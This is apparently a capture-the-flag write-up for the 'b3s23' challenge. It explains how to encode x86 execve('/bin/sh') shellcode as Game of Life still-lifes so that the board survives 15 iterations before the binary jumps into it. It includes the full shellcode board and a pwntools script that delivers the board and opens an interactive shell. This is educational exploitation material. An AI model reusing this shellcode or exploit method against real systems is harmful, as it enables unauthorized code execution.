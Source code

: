 # b3s23

> Welcome to b3s23.  Enter x,y coordinates.  Enter any other character to run.

Basic interaction with the binary quickly indicates that the program interprets the input as the set of live cells on a Conway's Game of Life board. After some minor reverse engineering, we see that the board is stored as a 12100-bit array, in 110 rows of 110 bits each. The binary runs 15 iterations of Game of Life on the board, and then it jumps to the first byte of the board data structure. So we need to create a board that will have shellcode at the start of the board after the Game of Life iterations.

## Game of Life
Conway's Game of Life is a famous cellular automata game. The rules are simple. The game takes place on a square grid, and a set of cells is initially colored black, or alive. The rest of the cells are considered dead. The game proceeds in steps. Each turn, you count each cell's number of live neighbors. If a live cell has 0 or 1 neighbors, it dies (turns white) in the next step (underpopulation). If a live cell has 4 or more neighbors, it also dies in the next step (overpopulation). A dead cell with exactly three neighbors becomes alive (reproduction).

This block has the implementation of the basic Game of Life rules, first counting a cell's neighbors and then deciding whether to make it alive in the next step.

![Game of Life block]
(images/isgameoflife.png)

## Shellcode Evolution
Since the entire point of Game of Life is that the evolution is difficult to predict (in fact, it's capable of representing Turing-complete computation), we need to set up the board carefully so it will evolve predictably. The easiest way to do this is to place only static structures on the board. Game of Life enthusiasts have created catalogs of all the small static patterns, which are known as "still-lifes". See http://codercontest.com/mniemiec/p1.htm for one useful example.

Execution effectively occurs across the board's rows, so we can place the code without regard to its Game of Life evolution and then use the surrounding rows to make the executing row static. We'll have to use jumps to get from each executing row to the next.

## Shellcode Choice
The shortest approach is to put code that calls `read` with the board as the destination and then send the real shellcode. Unfortunately, we didn't think of this during the competition, so we just put standard shellcode (`execve("/bin/sh", {"/bin/sh, NULL"}, ))`) on the board.

## Still-life Construction
Constructing still-lifes containing arbitrary code is actually somewhat difficult. For example, we could not find a small still-life that we could place on the board to create a sequence of five or more consecutive one-bits (live cells). So we just avoided any instructions or data with that many ones in a row.

One useful primitive to decouple adjacent instructions is the instruction `add al, 0`, which is represented as `0x04 0x00` in machine code. This instruction allows you to separate any potentially problematic adjacent instructions, because essentially all the bits are off.

One other useful primitive to combine still-life patterns is that adjacent walls (vertical sequences of live cells) do not interfere, as long as they match. So the following arrangement of two still-life patterns (the snake and the block) works:
```
xx x xx
x xx xx
```

Of course, any patterns separated by a gap of two columns or two rows will not interfere as well.

## Board
Below, we have the board we used, with shellcode inline. Executing lines are marked as beginning with `>` characters and ending with `|` characters.

```
>xxx   x   xxxx  | JNO $+1Eh;
x   x x x  x  x                       x xx x xx x xx
 x  x x x                       >   xxx x xx x xx x  | JMP $+5A;
  x x xx                           x               xxx
   x                               xx                x 

PUSH $0; PUSH $68h; XOR EAX, EAX; OR AL, $2Fh; ADD AL, $0; JMP $+55h;                       x   x
   xx xx           xx xx                   x          xx   xx x  x                  x xx x x x x x 
>  xx x x          xx x x  xx x     xx   xxx          xx    x xxxx     x          xxx x xx x x x x|
      x x             x x  x xx     xx  x                   x         x x        x          x   x
      xx              xx                xx                 xx   xx     x         xx
                                                                xx

OR AH, $73h; PUSH AX; PUSH $0Bh; POP EAX; JMP $+56h;                              x   
                           x              x      xx xx                    x xx x x x xx
>       x       xx  xx   xxx  xx xx  xx  x x     xx x x     x xx x xx   xxx x xx x x xx |
       x x      xx  xx  x     xx xx  xx   x         x x     xx x xx x  x          x    
        x               xx                          xx                 xx         

PUSH $6E69626Fh; ADD AL, 0; PUSH ESP; POP EBX; JNO $+56h;
                                            xx     x                                  x   x
       xx xx   xx x  x xx  xx                x    x x          xx     xx xx xx x     x x x x xx
>      xx x     x xxxx xx   x  xx x  x xx xxx      x           x x x   x xx xx xxx   x x x x xx |
          x     x          x   x xx  xx x x                       xx   x          x   x   x
          xx   xx   xx xx  xx                                         xx         xx
                    xx xx                                                     
PUSH ESP; POP ECX; XOR EDX, EDX; PUSH EDX; PUSH EBX; PUSH ESP; POP ECX; INT $80h;
                                                                 x
     xx           xx  xx     x xx    xx  xx   x   xx xx      xx x x
>    x x x   x xx  x  xx   xxx x  x  x x  x  x x  xx x x x   x xx  x     x          xx  xx xx |
        xx   xx x x       x      xx     xx    x         xx        xx    x x         xx  xx xx
                 x        xx                                             x
```

## Script
The following Python code converted this board into the program input and ran the exploit:

```
import re
from pwn import *

f = open('board.txt')
s = f.read()

rows = s.split('\n')
coords = [[(a.start(),i) for a in re.finditer('x', rows[i])] for i in range(len(rows))]
flatcoords = reduce(lambda x,y: x+y, coords)

tube = process("./b3s23")

for (x,y) in flatcoords:
    tube.writeline('{},{}'.format(x,y))

tube.writeline('lol')

for i in range(15):
    tube.recvuntil('01110001000111100000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000')

tube.interactive()
```
